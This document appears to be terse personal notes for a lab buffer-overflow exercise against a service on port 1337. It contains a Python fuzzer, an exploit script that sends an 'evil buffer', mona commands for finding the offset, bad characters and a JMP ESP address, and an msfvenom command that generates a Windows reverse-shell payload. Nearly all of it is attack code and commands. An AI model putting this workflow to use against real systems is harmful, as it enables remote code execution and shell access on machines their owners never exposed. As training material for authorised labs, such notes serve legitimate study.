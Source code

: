 Immunity Debugger
!mona config -set workingfolder

fuzz with:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.101.213"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

a = Number of bytes that crashed the server
c = a + 400
b = /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l c

2.py

```python
import socket

ip = "10.10.101.213"
port = 1337

prefix = "OVERFLOW2 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "$b"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

!mona findmsp -distance c
"EIP Contains normal pattern: ..."

OR
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP>`

Put the value into the offset variable in 2.py
Set retn = "BBBB"
Run again and verify EIP 42424242

!mona bytearray -b "\x00"

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Put the value of the python script into the payload variable
!mona compare -f C:\mona\oscp\bytearray.bin -a ESP-number
address =

!mona jmp -r esp -cbp "\x address"
https://defuse.ca/online-x86-assembler.htm#disassembly2
msfvenom -p windows/shell_reverse_tcp LHOST= LPORT= EXITFUNC=thread -b "\x01\xA7\xFA\x30"
retn = reversed address

```

```
